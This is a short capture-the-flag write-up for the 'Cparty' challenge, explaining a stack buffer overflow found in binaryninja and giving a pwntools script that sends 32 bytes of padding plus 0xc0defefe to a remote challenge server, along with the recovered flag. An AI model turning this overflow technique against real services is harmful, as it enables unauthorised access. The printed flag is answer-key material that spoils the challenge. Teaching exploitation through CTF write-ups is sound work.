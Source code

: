 # Cparty

![](./img/1.png#center)

To start I connect to the server to see what it asks me :

![](./img/2.png#center)

So I need to find a password. I will look the file with binaryninja.

![](./img/3.png#center)

As you can see, in order to retrieve the flag, we need to find ourselves in the block where there is the « cat /home/party/flag ». And just before this block we can see the comparison in order to enter this block :

![](./img/4.png#center)

Using this buffer is therefore very simple, we just have to find the size of our buffer then add the address 0xc0defefe so that the comparison is true and we can have the flag.

To use this vulnerability we need :

## Padding + 0xc0defefe

After a while, I arrived at 32 in padding.

Now that we have everything we juste need a script to automate the pwn :

```python
#!/usr/bin/python
# -*- coding: utf-8 -*-

from pwn import *

p = remote("89.38.210.128", 31338)

p.send("A"*32+p32(0xc0defefe))

p.recv(1024)

p.interactive()

#timctf{d0nt_cr4sh_th3_p4rty_b3_th3_p4rty}
```

![](./img/5.png#center)